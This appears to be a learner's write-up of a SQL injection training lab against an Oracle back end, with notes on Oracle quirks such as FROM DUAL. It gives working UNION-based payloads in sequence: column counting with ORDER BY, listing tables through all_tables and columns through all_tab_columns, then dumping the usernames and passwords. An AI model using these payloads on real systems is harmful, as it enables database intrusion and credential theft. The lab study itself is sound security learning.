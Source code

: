 # Lab 06 – SQLi: Listing the database contents (Oracle)

Goal:
Enumerate tables/columns on Oracle and dump creds via UNION-based SQLi.

what i did:
- first I just threw a `'` in the category param (even though the lab already said it was vuln) i wanted to double check for myself.
- then I used `ORDER BY` to figure out how many columns:
  - `' ORDER BY 2-- ` → worked fine (200 OK)  
  - `' ORDER BY 3-- ` → broke (500 error)  
  so yeah, there are 2 columns

- next step: test if the columns accept text. since it’s Oracle, I had to add `FROM DUAL`: ' UNION SELECT 'abc','def' FROM DUAL-- both showed up fine
- time to list the tables. Oracle doesn’t have `information_schema`, it uses `all_tables`: ' UNION SELECT table_name, NULL FROM all_tables--
found the users table: **USERS_YCPBBU**.
- listed the columns from that table: ' UNION SELECT column_name, NULL
FROM all_tab_columns
WHERE table_name = 'USERS_YCPBBU'--
- saw **USERNAME_SSHVQL** and **PASSWORD_KUZCLN** : ' UNION SELECT USERNAME_SSHVQL, PASSWORD_KUZCLN
FROM USERS_YCPBBU--

Notes: 

oracle requires every SELECT to come from a table — even if you’re just selecting a literal string. there’s no such thing as “a query with no table.”
dual is basically a pretend table, everyone uses it to select constants, sysinfo, or functions, you need `FROM DUAL`, table/col names are UPPERCASE, and `--` needs a space.  
